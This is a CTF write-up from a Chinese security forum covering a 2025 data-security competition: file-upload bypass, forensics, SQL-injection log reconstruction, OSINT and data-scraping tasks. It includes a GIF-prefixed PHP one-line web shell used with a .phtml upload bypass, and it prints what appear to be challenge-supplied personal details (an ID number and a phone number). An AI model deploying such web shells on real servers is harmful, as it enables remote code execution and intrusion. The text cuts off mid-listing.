# 2025 数字中国创新大赛数字安全赛道数据安全产业积分争夺赛初赛-先知社区

> **来源**: https://xz.aliyun.com/news/17566  
> **文章ID**: 17566

---

# 数据安全

## 3-**ez\_upload**

此处文件上传可以通过后缀名.phtml进行绕过，当然文件内容好像也对php进行了过滤，短木马即可

```
GIF89a
<?= @eval($_POST['cmd']);
```





得到路径：

```
/var/www/rssss4a
```

# 数据分析

## 溯源与取证

### 1

下载附件以后，直接使用R-STUDIO进行挂载即可  


恢复即可：

将恢复的docx文档改后缀名为rar，解压，在document.xml中发现flag  


```
b1e9517338f261396511359bce56bf58
```

### 2

通过查看内存镜像中的cmdline项，发现log文件可能是TrueCrypt加密  


直接用passware进行解密即可：



成功得到



成功得到日志：



获得ip

```
114.10.143.92
```

​

### 3

根据日志sql注入内容，写出正则，写出脚本即可：

```
import re
from collections import defaultdict
import hashlib
from xpinyin import Pinyin

# 读取日志文件
with open('access.log.1741305600.txt', 'r') as f:
    logs = f.readlines()

# 初始化数据结构
data = {
    'id_card': defaultdict(dict),
    'name': defaultdict(dict)
}

# 优化后的正则模式（合并两种注入类型）
pattern = re.compile(
    r'select%20(id_card|name)%20from%20info%20limit%20(\d+),1\),(\d+),1\)\)=(\d+).*?" (\d+) (\d+)'
)

# 统一处理日志
for log in logs:
    match = pattern.search(log)
    if match:
        data_type = match.group(1)  # id_card/name
        row = int(match.group(2))  # 记录行号
        position = int(match.group(3))  # 字符位置
        ascii_val = int(match.group(4))  # ASCII值
        status_code = match.group(5)  # 状态码
        res_size = match.group(6)  # 响应大小

        if status_code == '200' and res_size == '704':
            # 存储有效字符
            data[data_type][row][position] = chr(ascii_val)


def build_records(data_type):
    """构建完整数据记录"""
    records = []
    for row in sorted(data[data_type].keys()):
        positions = data[data_type][row]
        max_pos = max(positions.keys()) if positions else 0
        record = ''.join([positions.get(i, '?') for i in range(1, max_pos + 1)])
        if '?' not in record:
            records.append((row, record))
    return records


# 获取有效数据
id_card_records = {row: val for row, val in build_records('id_card')}
name_records = {row: val for row, val in build_records('name')}

# 合并有效记录（确保id_card和name对应同一行）
valid_pairs = []
for row in id_card_records:
    if row in name_records:
        valid_pairs.append((id_card_records[row], name_records[row]))

# 中文拼音处理
pinyin_converter = Pinyin()


def get_sort_key(name):
    """生成拼音排序键"""
    initials = pinyin_converter.get_initials(name, '').upper()  # 获取首字母缩写
    full_pinyin = pinyin_converter.get_pinyin(name, '').replace('-', '')  # 获取全拼
    return (initials, full_pinyin)  # 先按首字母排序，再按全拼排序


# 排序处理（多级排序）
sorted_pairs = sorted(
    valid_pairs,
    key=lambda x: (get_sort_key(x[1]), x[1])  # 先按拼音首字母，再按全拼，最后按姓名
)

# 拼接身份证号并计算MD5
id_card_chain = ''.join([pair[0] for pair in sorted_pairs])
md5_result = hashlib.md5(id_card_chain.encode()).hexdigest().lower()

# 输出结果
print("最终排序的身份证号序列:")
print(id_card_chain)
print("
MD5哈希值:", md5_result)

```



得到最终答案：

```
060b534ffb5c4a487be36cca98165e73
```

## 数据攻防

## ​

### 1

先把http的请求全部dump出来  


写一个脚本：

```
import re

# 读取文件内容
with open("C:\Users\Administrator\Downloads\http_get_post_data.txt",encoding="utf-8") as f:
    内容 = f.read()

# 定义正则规则
正则规则s = [
    r"NOT%20like%20'sqlite_%25'\),(.*?),1\)\)='(.*?)'",
    r"from%20sqlite_master%20where%20type='table'\),(.*?),1\)\)='(.*?)'",
    r"group_concat\(fl4g_1s_here\)%20from%20password\),(.*?),1\)\)='(.*?)'"
]

# 用于存储匹配到的结果
存储列表 = []

# 遍历正则规则，查找匹配项
for 正则规则 in 正则规则s:
    pat = re.compile(正则规则)
    存储列表.extend(pat.findall(内容))

# 输出匹配后的数组内容，方便调试
print(存储列表)

# 初始化flag数组
flag = [""] * 100000  # 假设长度为100000

# 处理匹配项
for t in 存储列表:
    if len(t) == 2:
        index = int(t[0])  # 获取下标
        char = t[1]  # 获取字符
        flag[index] = char
    else:
        print(f"Skipping invalid match: {t}")

# 拼接最终结果
result = ''.join(flag).strip()

# 输出最终结果
print(result)

```

成功提取  
66383463343233336464313835636133633038336337623364626334666638627E7E7E7E7E7E7E

删除掉7E

得到

```
f84c4233dd185ca3c083c7b3dbc4ff8b
```



## 数据社工

### 2

在爬取的网页中成功找到了其公司地址  


```
江苏博林科技有限公司
```

​

### 3

根据2中数据得到电话号码：

```
13891889377
```

### 4

在爬取的网页中找到其身份证号码：



```
61050119980416547X
```

### 5

通过手机号，在停车场泄露数据中成功找到车牌号  


```
浙B QY318
```

# 模型安全

## 数据预处理

### 1

分析页面情况后写出代码即可，最终代码让deepseek优化一下：

```
import hashlib
import re
import logging
from typing import List, Tuple, Optional, Dict
from urllib.parse import urljoin

import pandas as pd
import requests
from bs4 import BeautifulSoup
from tqdm import tqdm

# 配置日志
logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s - %(levelname)s - %(message)s'
)
logger = logging.getLogger(__name__)


class Config:
    """集中管理配置参数"""
    BASE_DOMAIN = "http://47.117.190.214:32800/"
    ENDPOINT = "/index.php"
    REQUEST_TIMEOUT = 15
    MAX_PRODUCTS = 500
    OUTPUT_FILE = "submit_1.csv"
    HEADERS = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 "
                      "(KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36"
    }

    @classmethod
    def full_url(cls) -> str:
        """生成完整请求URL"""
        return urljoin(cls.BASE_DOMAIN, cls.ENDPOINT)


def extract_field_value(text: str, separator: str = "：") -> str:
    """通用字段提取函数"""
    return text.split(separator, 1)[-1].strip() if separator in text else text.strip()


def parse_user_info(item) -> Tuple[str, str, str]:
    """解析用户信息区块"""
    user_id_tag = item.find('span', class_='user-id')
    username_tag = item.find('span', class_='reviewer-name')
    phone_tag = item.find('span', class_='reviewer-phone')

    # 提取用户ID（数字部分）
    user_id = re.search(r'\d+', user_id_tag.text).group() if user_id_tag else ''

    # 提取用户名
    username = extract_field_value(username_tag.text) if username_tag else ''

    # 提取电话号码
    phone = extract_field_value(phone_tag.text) if phone_tag else ''

    return user_id, username, phone


def parse_comment(item) -> str:
    """解析评论内容"""
    content_tag = item.find('div', class_='review-content')
    return content_tag.text.strip() if content_tag else ''


def parse_comments(html: str) -> List[Tuple]:
    """解析完整评论列表"""
    soup = BeautifulSoup(html, 'html.parser')
    container = soup.find('div', class_='reviews-container')
    if not container:
        return []

    comments = []
    for review_item in container.find_all('div', class_='review-item'):
        try:
            user_id, username, phone = parse_user_info(review_item)
            comment = parse_comment(review_item)
            if user_id:  # 忽略无效条目
                comments.append((user_id, username, phone, comment))
        except Exception as e:
            logger.error(f"解析评论条目失败: {str(e)}")
            continue

    return comments


def fetch_comments(session: requests.Session, product_id: int) -> Optional[List[Tuple]]:
    """获取单个产品的评论数据"""
    params = {
        "controller": "product",
        "action": "detail",
        "id": product_id
    }

    try:
        response = session.get(
            Config.full_url(),
            params=params,
            timeout=Config.REQUEST_TIMEOUT
        )
        response.raise_for_status()
        return parse_comments(response.text)
    except requests.exceptions.HTTPError as e:
        logger.warning(f"产品 {product_id} 请求失败: HTTP {response.status_code}")
    except requests.exceptions.Timeout:
        logger.warning(f"产品 {product_id} 请求超时")
    except Exception as e:
        logger.error(f"产品 {product_id} 请求异常: {str(e)}")

    return None


def analyze_sentiment(comment: str) -> int:
    """改进的情感分析逻辑"""
    POSITIVE_KEYWORDS = {'好', '满意', '推荐', '不错', '超值', '快', '给力'}
    NEGATIVE_KEYWORDS = {'差', '不行', '失望', '破损', '漏', '贵', '没用'}

    clean_comment = comment.lower()
    if any(kw in clean_comment for kw in POSITIVE_KEYWORDS):
        return 1
    if any(kw in clean_comment for kw in NEGATIVE_KEYWORDS):
        return 0
    return 0  # 默认中性归为负面


def generate_md5(row: pd.Series) -> str:
    """生成数据签名"""
    composite_str = f"{row['user_id']}{row['username']}{row['phone']}"
    return hashlib.md5(composite_str.encode()).hexdigest()


def process_data(raw_data: List[Tuple]) -> pd.DataFrame:
    """数据加工管道"""
    df = pd.DataFrame(
        raw_data,
        columns=['user_id', 'username', 'phone', 'comment']
    ).drop_duplicates(subset=['user_id'], keep='first')

    df['label'] = df['comment'].apply(analyze_sentiment)
    df['signature'] = df.apply(generate_md5, axis=1)

    return df.sort_values('user_id', ascending=True)[['user_id', 'label', 'signature']]


def main():
    """主执行流程"""
    with requests.Session() as session:
        session.headers.update(Config.HEADERS)

        # 带进度条的数据采集
        product_ids = range(1, Config.MAX_PRODUCTS + 1)
        all_comments = []

        for pid in tqdm(product_ids, desc="采集产品评论"):
            if comments := fetch_comments(session, pid):
                all_comments.extend(comments)

        if not all_comments:
            logger.error("未获取到有效数据，请检查网络连接或页面结构")
            return

        # 数据处理
        final_df = process_data(all_comments)

        # 结果保存
        final_df.to_csv(Config.OUTPUT_FILE, index=False, encoding='utf-8')
        logger.info(f"成功生成数据文件 {Config.OUTPUT_FILE}，包含 {len(final_df)} 条记录")


if __name__ == "__main__":
    main()

```

### 2

根据题目要求，主要是对其分类的情况要多一点关键词：

```
CATEGORY_KEYWORDS = [
    (11, ['热水器', '速热', '恒温', '防干烧', '即热式', '储水式', '电热水器', '燃气热水器',
          '太阳能热水器', '空气能热水器', '壁挂炉', '热水系统', '回水装置', '恒温阀',
          '镁棒', '防电墙', '速热电热水器', '零冷水', '预即双模']),

    (16, ['汽车', '车载', '机油', '轮胎', '变速箱', '刹车片', '雨刷', '火花塞', '滤清器',
          '蓄电池', '行车记录仪', '车载充电器', '汽车贴膜', '脚垫', '方向盘套', '防冻液',
          '玻璃水', '悬挂系统', '涡轮增压', '四轮定位', '钣金喷漆', '汽车美容', '车衣']),

    (15, ['玩具', '乐高', '积木', '钢琴', '吉他', '拼图', '遥控车', '芭比娃娃', '变形金刚',
          '拼装模型', '益智玩具', '早教机', '磁力片', '轨道车', '毛绒玩具', '电子琴', '小提琴',
          '架子鼓', '尤克里里', '口琴', '音乐盒', '画板', '橡皮泥', '沙滩玩具']),

    (22, ['医疗', '体温计', '血压仪', '轮椅', '助行器', '血糖仪', '制氧机', '雾化器', '听诊器',
          '医用口罩', '防护服', '手术刀', '针灸针', '理疗仪', '康复设备', '助听器', '呼吸机',
          '护理床', '血压计', '血氧仪', '消毒柜', '医用纱布', '棉签', '创可贴']),

    (23, ['花卉', '绿植', '多肉', '盆栽', '种子', '花盆', '营养土', '园艺剪', '喷壶', '花架',
          '观叶植物', '鲜花', '干花', '花肥', '杀虫剂', '生根粉', '育苗盘', '苔藓微景观',
          '水培植物', '兰花', '仙人掌', '绿萝', '富贵竹', '发财树', '文竹']),

    (25, ['园艺工具', '洒水器', '铲子', '花盆', '营养土', '修枝剪', '嫁接刀', '园艺手套',
          '割草机', '绿篱机', '树枝粉碎机', '园艺锯', '松土器', '育苗箱', '自动喷灌',
          '园艺支架', '接水盘', '播种器', '园艺地布', '防草布', '智能花盆', '植物补光灯']),

    (2, ['母婴', '奶粉', '尿不湿', '婴儿车', '奶瓶', '吸奶器', '孕妇装', '待产包', '婴儿床',
         '学步车', '儿童餐椅', '隔尿垫', '哺乳枕', '温奶器', '婴儿背带', '防溢乳垫',
         '婴儿湿巾', '婴儿沐浴露', '护臀膏', '婴儿理发器', '早教玩具', '婴儿监护器']),

    (1, ['手机', '5G', '智能机', '曲面屏', '骁龙', '全面屏', '快充', '双卡双待', '游戏手机',
         '拍照手机', '防水手机', '折叠屏', 'AMOLED', '屏下指纹', '液冷散热', '超级快充',
         '升降摄像头', 'HiFi音质', 'NFC功能', '无线充电', '移动电源', '手机壳']),

    (6, ['厨房', '炒锅', '菜刀', '砧板', '洗碗机', '电饭煲', '微波炉', '压力锅', '榨汁机',
         '空气炸锅', '料理机', '破壁机', '蒸烤箱', '油烟机', '燃气灶', '消毒柜', '绞肉机',
         '烘焙模具', '厨房秤', '磨刀器', '沥水篮', '保鲜盒', '厨房置物架']),

    (20, ['户外', '帐篷', '登山杖', '睡袋', '冲锋衣', '登山鞋', '户外背包', '野餐垫',
          '烧烤架', '露营灯', '指南针', '求生哨', '军刀卡', '速干衣', '抓绒衣', '攀岩绳',
          '冰爪', '滑雪板', '钓鱼竿', '浮潜面镜', '登山扣', '头灯', '户外水壶']),

    (10, ['运动', '跑步机', '瑜伽垫', '哑铃', '泳镜', '健身车', '椭圆机', '仰卧板',
          '运动护具', '拉力器', '跳绳', '羽毛球拍', '乒乓球桌', '足球鞋', '篮球架',
          '运动手环', '计步器', '筋膜枪', '运动水壶', '运动毛巾', '运动背包']),

    (21, ['珠宝', '钻石', '黄金', '翡翠', '铂金', 'K金', '珍珠', '和田玉', '琥珀',
          '蜜蜡', '珊瑚', '绿松石', '红宝石', '蓝宝石', '祖母绿', '婚戒', '吊坠',
          '手链', '耳环', '胸针', '转运珠', '生肖挂件', '文玩核桃']),

    (14, ['酒水', '红酒', '白酒', '威士忌', '啤酒', '黄酒', '清酒', '伏特加', '朗姆酒',
          '鸡尾酒', '起泡酒', '香槟', '精酿啤酒', '果酒', '保健酒', '酒具', '醒酒器',
          '红酒杯', '酒柜', '酒窖', '年份酒', '原浆酒']),

    (5, ['蔬菜', '有机', '绿叶菜', '西红柿', '黄瓜', '胡萝卜', '土豆', '辣椒', '茄子',
         '西兰花', '菠菜', '芹菜', '莲藕', '菌菇', '豆角', '南瓜', '山药', '芦笋',
         '秋葵', '娃娃菜', '冰草', '羽衣甘蓝', '芽苗菜']),

    (8, ['水果', '进口', '榴莲', '车厘子', '蓝莓', '草莓', '芒果', '奇异果', '山竹',
         '菠萝蜜', '牛油果', '莲雾', '释迦果', '火龙果', '椰子', '百香果', '番石榴',
         '杨桃', '枇杷', '西梅', '无花果', '人参果']),

    (4, ['书籍', '小说', '教材', '儿童读物', '科技', '文学', '历史', '哲学', '心理学',
         '经济学', '计算机', '编程', '医学', '法律', '建筑', '艺术', '摄影', '旅游指南',
         '字帖', '绘本', '百科全书', '字典', '考试用书']),

    (24, ['游戏', 'PS5', 'Switch', 'Xbox', '手柄', '游戏卡带', '游戏光盘', '电竞椅',
          '游戏鼠标', '机械键盘', '游戏耳机', 'VR设备', '游戏周边', '手办', '游戏点卡',
          '游戏加速器', '游戏皮肤', '游戏账号', 'MOD工具', '游戏攻略书']),

    (12, ['彩妆', '口红', '粉底', '眼影', '眉笔', '腮红', '遮瑕', '化妆刷', '美妆蛋',
          '定妆喷雾', '睫毛膏', '眼线笔', '修容棒', '高光', '妆前乳', '卸妆水', '美瞳',
          '假睫毛', '美甲贴', '化妆镜', '美容工具', '香水']),

    (17, ['床上用品', '四件套', '羽绒被', '枕头', '床垫', '蚕丝被', '乳胶枕', '凉席',
          '床褥', '床笠', '被套', '枕套', '蚊帐', '电热毯', '记忆棉', '榻榻米',
          '床幔', '靠垫', '抱枕', '床尾凳', '布艺床']),

    (18, ['洗护', '洗发水', '沐浴露', '牙膏', '洗面奶', '护发素', '身体乳', '洗手液',
          '洗衣液', '柔顺剂', '消毒液', '洁厕灵', '厨房清洁剂', '玻璃水', '除霉剂',
          '空气清新剂', '香薰', '除螨仪', '洗衣凝珠', '衣物除菌液']),

    (7, ['办公', '打印机', '投影仪', '复印纸', '文件夹', '订书机', '碎纸机', '考勤机',
         '白板', '会议电话', '文件柜', '保险箱', '装订机', '标签机', '支票打印机',
         '扫描仪', '指纹打卡机', '办公沙发', '会议桌', '办公隔断']),

    (3, ['家居', '沙发', '茶几', '窗帘', '地毯', '衣柜', '餐桌', '电视柜', '鞋柜',
         '置物架', '装饰画', '花瓶', '壁纸', '灯具', '智能门锁', '晾衣架', '收纳盒',
         '墙贴', '门垫', '家居摆件', '香炉']),

    (9, ['宠物', '猫粮', '狗粮', '宠物窝', '牵引绳', '猫砂', '宠物玩具', '宠物衣服',
         '宠物浴液', '驱虫药', '宠物笼', '食盆', '自动喂食器', '猫抓板', '宠物推车',
         '宠物背包', '宠物美容', '宠物医院', '宠物殡葬', '宠物芯片']),

    (13, ['保健', '鱼油', '维生素', '钙片', '蛋白粉', '益生菌', '褪黑素', '护肝片',
          '胶原蛋白', '葡萄籽', '辅酶Q10', '氨糖', '膳食纤维', '蜂胶', '冬虫夏草',
          '阿胶', '燕窝', '人参', '灵芝孢子粉', '按摩器', '足浴盆']),

    (19, ['五金', '螺丝刀', '电钻', '扳手', '工具箱', '角磨机', '电锤', '切割机',
          '水平仪', '卷尺', '钳子', '焊枪', '砂轮机', '冲击钻', '电动螺丝刀', '开孔器',
